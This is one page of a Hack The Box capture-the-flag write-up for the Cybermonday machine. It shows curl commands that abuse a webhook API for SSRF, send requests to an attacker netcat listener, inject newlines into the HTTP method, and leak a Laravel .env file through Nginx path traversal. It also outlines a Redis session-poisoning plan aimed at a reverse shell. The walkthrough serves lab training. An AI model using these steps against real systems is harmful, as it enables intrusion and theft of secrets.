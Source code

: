 # Cybermonday - Obtaining More Info

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[**Obtaining More Info**](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have the ability to [[ssrf|make the web server send requests for us]], the question is what to do with it. The first thing to try would be to [[local-file-inclusion|get files on the system]]:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "file://etc/passwd", "method": "GET"}' -v

{"status":"error","message":"Only http protocol is allowed"}
```

Not going to be that easy unfortunately. With us only being able to make [[http|HTTP]] requests, the use right now seems limited. Let's use a [[netcat|`netcat`]] listener and send some requests to see what info the webhook is sending.
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "GET"}' -v

GET / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Hmm, not much to go on here. What about a `POST`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "POST"}' -v

POST / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Still very little. Well we've already tried messing around with the `url` with no luck but what about the `method`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "HMM"}' -v

HMM / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

I don't think `HMM` is a valid HTTP verb (though there are a lot more than you might think). So we can assume the `method` is not being validated, but how far does this go?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "TEST\ntest 2"}' -v

TEST
test 2 / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Okay, so now we have a way to send data to locations only the server can access. But what can we actually do with this? To figure that out lets first return to the Cybermonday shopping site. Now that we know it's running on [[laravel|Laravel]] we know there's a `.env` file that might contain some useful information. If we look at the headers we also know that the store is running behind an [[nginx|Nginx]] proxy server, which can often be misconfigured to allow for [[path-traversal|path traversal]]. Trying to use this on most paths just results in Laravel receiving the request and providing a `404` response. However if we look at the URL for some of the static images on the site we see there's also an `assets` path available. If you used [[gobuster|`gobuster`]] when first browsing the site you might have also found this directory. Navigating to the directory itself gives us an Nginx `403` message rather than a Laravel `404` which is promising. If we try the path traversal here: 
```
http://cybermonday.htb/assets../.env

APP_NAME=CyberMonday
APP_ENV=local
...
```

We now have an environment file with some very interesting information in it. Among this information is the Laravel `APP_KEY`, and information on both the [[redis|Redis server]] and [[mysql|MySQL server]] this app connects to.

As we can only send data with the webhook and not receive it without a valid HTTP response, the MySQL information is probably not going to be very useful, however Redis has a much [[redis#RESP|simpler protocol]] that doesn't require a back and forth to update information and settings. If you'd like to know more about it you can [read about the Redis RESP protocol here](https://redis.io/docs/reference/protocol-spec/). You might have noticed in the Laravel debug information from the profile page that the app is making use of [[session-poisoning|sessions]]. These sessions will be stored in the Redis server, so if we can find a way to inject a [[php|PHP]] [[deserialization|deserialization]] attack payload into the Redis server, we could potentially have a way to perform [[rce|RCE]] and gain a [[reverse-shell|reverse shell]].

Next: [Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)